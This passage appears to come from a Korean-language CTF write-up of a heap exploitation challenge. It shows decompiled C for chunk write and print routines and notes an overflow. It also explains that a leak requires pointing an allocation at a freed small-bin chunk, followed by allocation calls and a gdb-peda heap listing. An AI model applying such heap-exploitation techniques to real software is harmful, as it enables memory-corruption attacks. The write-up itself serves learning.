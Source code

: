 ```c
      {
        printf("Content: ");
        result = read_(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
  }
  return result;
}
```

할당한 chunk에 데이터를 넣을 수 있는데 일단 오버플로우가 나고 매핑된 영역에 flag가 없으면 사용할 수 없다.

```c
signed int __fastcall print_chunk(__int64 a1)
{
  signed int result; // eax
  signed int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = select_number();
  v2 = result;
  if ( result >= 0 && result <= 15 )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      print_sub(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      result = puts(byte_14F1);
    }
  }
  return result;
}
```

free는 기본적이라 생략하고 이녀석도 역시 mapped된 영역의 정보를 가지고 출력을 해준다. 주소+할당할 때 size만큼 write로 출력한다. 

익스자체는 간단한데 문제는 leak이다. free시에 chunk 포인터가 비워지기 때문에 간단하게는 leak을 할 수가 없다. 할당되는 포인터를 free된 small bin chunk를 가리키도록 해야 한다.

```c
add(0xf0)
add(0x10)
add(0xf0)
add(0x20)

gdb-peda$ par
addr                prev                size                 status              fd                bk                
0x55d233da8000      0x0                 0x100                Used                None              None
0x55d233da8100      0x0                 0x20                 Used                None              None
0x55d233da8120      0x0                 0x100                Used                None              None
0x55d233da8220      0x0                 0x30                 Used                None              None
```
